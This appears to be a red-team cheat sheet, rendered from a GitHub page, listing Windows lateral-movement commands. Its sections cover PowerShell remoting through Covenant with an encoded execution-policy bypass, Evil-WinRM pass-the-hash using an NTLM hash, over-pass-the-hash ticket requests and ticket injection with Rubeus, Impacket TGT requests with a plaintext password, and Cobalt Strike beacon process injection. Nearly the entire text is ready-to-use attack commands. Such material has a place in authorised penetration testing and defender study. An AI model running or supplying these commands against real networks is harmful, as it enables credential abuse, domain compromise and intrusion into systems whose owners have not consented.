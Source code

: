 #### Using Covenant PowerShellRemoting

```
> PowerShellRemotingCommand dc02 "powershell -exec bypass -enc JABk[...]AAoA"
```

#### Evil-WinRM

```
proxychains evil-winrm -i 172.16.83.152 -u sqlsvc -H '1ef8ec7a4e862ed968d4d335afb77215'
```

#### Over Pass the Hash

Meterpreter

```
# request tgt
> invoke-rubeus -command "asktgt /user:sqladm /rc4:1ef8ec7a4e862ed968d4d335afb77215"

# create a dummy process
> invoke-rubeus -command "createnetonly /program:c:\windows\system32\cmd.exe"

# pass the ticket to the process
> invoke-rubeus -command "ptt /ticket:[...] /luid:0x49c51e"
```

Covenant

```
# request a ticket
> rubeus asktgt /user:bruce /rc4:<ntlm> /outfile:ticket.kirbi

# sacraficial process
> rubeus createnetonly /program:c:\windows\system32\cmd.exe

# pass the ticket
> rubeus ptt /luid:0x330c17 /ticket:c:\windows\tasks\ticket.kirbi

# impersonate
> ImpersonateProcess 1116
```

Impacket

```
getTGT.py -dc-ip 10.9.0.1 'vault.local/attackersystem$:Summer2018!'
```

### Process Injection

```
# find desired PID
beacon> ps
[...]

beacon> inject 340 x64 peer-localhost
[...]
```
